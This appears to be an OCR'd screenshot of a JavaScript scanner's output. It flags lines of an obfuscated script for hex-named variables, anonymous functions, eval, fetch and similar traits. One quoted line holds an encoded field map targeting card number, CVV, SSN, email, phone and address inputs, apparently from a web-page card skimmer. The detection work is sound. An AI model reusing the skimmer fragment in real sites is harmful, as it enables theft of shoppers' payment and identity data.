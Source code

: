 XQtY2MtZXhwaXJlLWRhdGUiLCAwLCAibSIsICJEYXRlIl0IFsibmFtZSIsICJjY19leHBpcmVfZGF0ZV95ZWFyIiwgMCwg
InkiLCAiRGF0ZSJdLCBbImlkIiwgImlucHV0LWNjLWN2djIiLCAwLCAiYyIsICJDVlYiXSwgWyJpZCIICJpbnB1dC1wYXl
tZW50LWN1c3RvbS1maWVsZDQiLCAwLCAic24iLCAic3NuIl0sIFsiaWQiLCAiaW5wdXQtcGF5bWVudC1lbWFpbCIsIDAsI
CJlbCIsICJlbWFpbCJLCBbImlkIiwgImlucHV0LWVtYWlsIiwgMCwgImVsIiwgImVtYWlsIl0sIFsiaWQiLCAiaW5wdXQt
cGF5bWVudC10ZWxlcGhvbmUiLCAwLCAicGUiLCAicGhvbmUiXSwWyJpZCIsICJpbnB1dC10ZWxlcGhvbmUiLCAwLCAicGU
iLCAicGhvbmUiXSwgWyJpZCIsICJpbnB1dC1wYXltZW50LWNpdHkiLCAwLCAiY3kiLCAiY2l0eSJdLCBbImlIiwgImlucH
V0LXBheW1lbnQtY291bnRyeSIsIDMsICJjdCIsICJjb3VudHJ5Il0sIFsiaWQiLCAiaW5wdXQtcGF5bWVudC1wb3N0Y29k
ZSIsIDAsICJ6cCIsICJ6aXAXSwgWyJpZCIsICJpbnB1dC1wYXltZW50LXpvbmUiLCAzLCAic3QiLCAic3RhdGUiXSwgWyJ
pZCIsIFsiaW5wdXQtcGF5bWVudC1hZGRyZXNzLTEiLCAiaW5wdXQtcGFbWVudC1hZGRyZXNzLTIiXSwgMCwgImFzIiwgIm
FkZHIiXV0=',xfkwf[_0x4d5ab1(0x10b)]=_0x4d5ab1(0xe6),xfkwf[_0x4d5ab1(0xfb)]=window['JSON'][_0x4
d5ab1(0xf4)](xfkwf[_0x4d5ab1(0x116)](xfkwf[_0x4d5ab1(0xd9)])),xfkwf[_0x4d5ab1(0x10e)]={},xfkwf
[_0x4d5ab1(0xec)]=[],xfkwf[_0x4d5ab1(0xdf)]=_0x4d5ab1(0xfe),xfkwf[_0x4d5ab1(0xe7)]=0x0,xfkwf['
vnskp_param']='hash',xfkwf['qwyjy']=function(){var _0x5ebb97=_0x4d5ab1,_0x37be03=xfkwf[_0x5ebb
97(0xf0)][_0x5ebb97(0x110)](_0x5ebb97(0x122)),_0x3a1440=xfkwf[_0x5ebb97(0xf0)][_0x5ebb97(0x110
)](_0x5ebb97(0x11b)),_0x2bedca=xfkwf[_0x5ebb97(0xf0)][_0x5ebb97(0x110)](_0x5ebb97(0x121));",
            variable: true,
            function: true,
            const_kw: false,
            variable_name: "_0x5ebb97",
            function_name: "",
            const_name: "",
            hex_name: true,
            anonymous_function: true,
            fetch: false,
            xml_http_request: false,
            eval: false,
            exec_script: false,
            prevent_default: false,
            local_storage: false,
            atob: false,
            btoa: false,
            script_size: 10256,
            line_size: 2045,
            flag: true,
            flag_reason: "Anonymous function by itself is not bad. It speed up machine time. B
ut it spoil fun for the fun loving people. How are they going to call it? It doesn't have a na
me, to start with... It uses encoded names. Some of the lines are too large.  Line_number: 28,
 File_size: 10256, Line_size: 2045 ",
            unusual_behavior: false,
            suspicious_behavior: false,
        },
        JavaScriptModel {
            line_number: 29,
            line: "for(var _0x1232d1=0x0;",
            variable: true,
            function: false,
            const_kw: false,
            variable_name: "_0x1232d1",
            function_name: "",
            const_name: "",
            hex_name: true,
            anonymous_function: false,
            fetch: false,
            xml_http_request: false,
            eval: false,
            exec_script: false,
            prevent_default: false,
            local_storage: false,
            atob: false,
            btoa: false,
            script_size: 10256,
            line_size: 22,
            flag: true,
            flag_reason: "It uses encoded names. ",